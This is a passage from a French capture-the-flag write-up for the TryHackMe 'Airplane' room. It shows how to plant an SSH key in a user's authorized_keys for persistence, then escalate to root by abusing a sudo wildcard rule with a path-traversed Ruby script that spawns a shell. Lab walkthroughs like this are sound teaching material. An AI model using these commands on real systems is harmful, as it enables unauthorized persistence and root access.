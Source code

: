 ![SSH keygen](/images/THM-Airplane/keygen_carlos.png)

Nous stockons le contenu de `carlos.pub` dans `/home/carlos/.ssh/authorized_keys` à l'aide de

```
echo 'CONTENT OF carlos.pub' > /home/carlos/.ssh/authorized_keys

chmod 600 /home/carlos/.ssh/authorized_keys
```

![SSH setup](/images/THM-Airplane/SSH_setup.png)

Sur notre machine locale, nous nous connectons sous le nom de Carlos avec 

```
ssh -i carlos carlos@airplane.thm
```

![SSH login as carlos](/images/THM-Airplane/shh_login_carlos.png)

## Elévation de Privilèges

Avec `sudo -l` nous apprenons que `carlos` est autorisé à exécuter n'importe quel script Ruby situé dans `/root` en tant que root sans fournir de mot de passe.

![sudo -l command](/images/THM-Airplane/sudo-l.png)

Il est facile d'en abuser en créant notre propre fichier ruby contenant une commande pour lancer un shell. De plus, grâce au caractère `*`, nous pouvons exécuter notre fichier même s'il se trouve en dehors de `/root`.

```
echo 'exec "/bin/sh"' > root.rb

sudo /usr/bin/ruby /root/../home/carlos/root.rb
```

Après avoir exécuté les deux commandes ci-dessus, nous obtenons l'accès au compte root et nous pouvons lire le fichier `root.txt`.

![root flag](/images/THM-Airplane/root_flag.png)

Merci d'avoir pris le temps de lire cet article, j'espère qu'il vous a été utile.
